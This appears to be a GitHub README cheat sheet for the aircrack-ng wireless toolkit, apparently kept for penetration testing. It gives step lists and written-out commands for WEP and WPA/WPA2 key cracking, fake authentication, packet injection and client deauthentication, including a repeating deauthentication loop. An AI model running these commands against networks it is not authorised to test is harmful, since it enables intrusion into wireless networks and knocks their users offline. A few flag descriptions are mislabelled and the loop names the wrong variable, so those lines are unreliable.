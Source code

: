 # Always Be Collecting

## Procedures, Notes, and Tips

Check the wireless interface(s) with iwconfig` and start monitoring mode.
```
$ airmon-ng start wlx9cefd5fd1181
```

Verify that [injection tests](https://www.aircrack-ng.org/doku.php?id=injection_test) work.
```
$ aireplay-ng -9 -e ap_name wlan0mon
```

Find surrounding networks, access points and clients
```bash
$ airodump-ng wlan0mon
```

Begin collection on target channel, BSSID and recording to file.
  - `-c` Select channel number
  - `-w` Write to file
  - `--bssid` MAC address of access point
  - `--ivs` Save only captured IVs (optional)
```bash
$ airodump-ng -c 6 --bssid E0:05:C5:60:2E:65 --ivs -w capture wlan0mon
```

### WEP without clients
Steps to perform an attack on a WEP access point with no associated clients. The access point must be broadcasting data for this to work.
  1) Monitor and capture the target network traffic using `airodump-ng`.
  2) In a new console execute Fake Authentication attack method.
  3) In a new console execute Fragmentation attack method and wait.
  4) If #3 is not working, run chopchop attack.
  5) Create an arp packet with `packetforge-ng`.
  6) Inject the arp packet using `aireplay-ng -2`.
  7) Run `aircrack-ng` to obtain the WEP key. 

### WPA/WPA2 with clients
Steps to perform an attack on a WPA/WPA2 access point with clients. The pre-shared (PSK) must be in the wordlists used.

There is a bug in versions older than 1.5 where this will fail.
  1) Monitor and capture the target network traffic using `airodump-ng`.
  2) In a new console execute Deauthentication attack method on associated client(s).
  3) Run `aircrack-ng` to obtain the PSK.

### aircrack-ng
Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```bash
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```bash
$ aircrack-ng -z replay_arp-0309-015802.cap
```

### airmon-ng
Set interface to monitor mode.
```bash
$ airmon-ng start wlx9cefd5fd1181
```

Stop monitor mode and restart networking.
```
$ airmon-ng stop wlan0mon
$ systemctl restart network-manager.service
```

Checking and kill networking services.
```
$ airmon-ng check kill
```

### aireplay-ng

#### Quick summary
Attack modes (Numbers can still be used):

  - `--deauth`or `-0`
  - `--fakeauth` or `-1`
  - `--interactive`or `-2`
  - `--arpreplay` or `-3`
  - `--chopchop` or `-4`
  - `--fragment` or `-5`
  - `--test` or `-9`

#### Deauthentication
Set attack mode [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication).
  - `-0` Set for `deauthentication` mode
  - `-e` Target access point ESSID
  - `-a` Target access point MAC address
  - `-c` Set destination MAC address
```bash
$ aireplay-ng -0 5 -e ap_name -a ap_mac -c client_mac wlan0mon
```

#### Fake Authentication
Set attack mode [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication).
  - `-1` Set for fake authentication attack
  - `180` Reassociation timing in seconds
  - `-o` Number of packets to send at a time
  - `-q` Frequency to send keep-alive packets
  - `-e` Target access point network name
  - `-a` Target access point MAC address
  - `-h` Our wireless card's MAC address
```bash
$ aireplay-ng -1 180 -o 1 -q 10 -e ap_name -a ap_mac -h our_mac wlan0mon
```

#### Interactive packet replay
Set attack mode [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay).
  - `-2` Set for interactive packet replay attack mode
  - `-r` ARP file to replay
```bash
$ aireplay-ng -2 -r arp-request wlan0mon
```

#### ARP request replay attack
Set attack mode [ARP request replay attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection).
  - `-3` Set for ARP request replay attack mode
  - `-x` Number of packets-per-second
  - `-r` Extract packets from target pcap file
  - `-b` Target access point BSSID
  - `-h` Set source MAC address
```bash
$ aireplay-ng -3 -x 100 -r replay.cap -b ap_mac -h our_mac wlan0mon
```

#### KoreK chopchop attack
Set attack mode [Korek chopchop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop).
  - `-4` Set for chopchop attack
  - `-b` Target access point MAC address
  - `-h` Our wireless card's MAC address
```bash
$  aireplay-ng -4 -b ap_mac -h our_mac wlan0mon
```

#### Fragmentation attack
Set attack mode [Fragmentation](https://www.aircrack-ng.org/doku.php?id=fragmentation).
  - `-5` Set for chopchop attack
  - `-b` Target access point MAC address
  - `-h` Our wireless card's MAC address
```bash
$ aireplay-ng -5 -b ap_mac -h our_mac wlan0mon
```

#### packetforge-ng
Generate packets for injection from PRGA capture.
  - `-0` Set for generate arp packet
  - `-a` Target access point MAC address
  - `-h` Our wireless card's MAC address
  - `-k` Destination IP address (255.255.255.255)
  - `-l` Source IP address (255.255.255.255)
  - `-y` XOR file to read the PRGA from
  - `-w` Write to file
```bash
packetforge-ng -0 -a ap_mac -h our_mac -k 255.255.255.255 -l 255.255.255.255 -y file.xor -w arp-request
``` 

### Quick & Useful

#### Loops
Loop deauthentication attack to target client.
```bash
for s in `seq 1 1000`; do sleep 1 && aireplay-ng -0 1 -e ap_name -a ap_mac -c $i wlan0mon; done
```

#### Regex
Filter target ESSID's.
```bash
airodump-ng wlan0mon --essid-regex "^(ap_name).*$"
```

#### Renaming interface (temporary)
Rename target interface to `wlan1` instead of systemd generated name.
```bash
$ iwconfig | grep wlx
wlx9cefd5fd1181  IEEE 802.11  ESSID:off/any 
$ ip link set wlx9cefd5fd1181 down
$ ip link set wlx9cefd5fd1181 name wlan1
$ ip link set wlan1 up
$ systemctl restart network-manager.service
```
[Understanding systemd’s predictable network device names](https://major.io/2015/08/21/understanding-systemds-predictable-network-device-names/)

## Sources
[Tutorials](https://www.aircrack-ng.org/doku.php?id=tutorial)
[Aircrack-ng Newbie Guide for Linux](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
[Tutorial: How to crack WEP with no wireless clients](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)
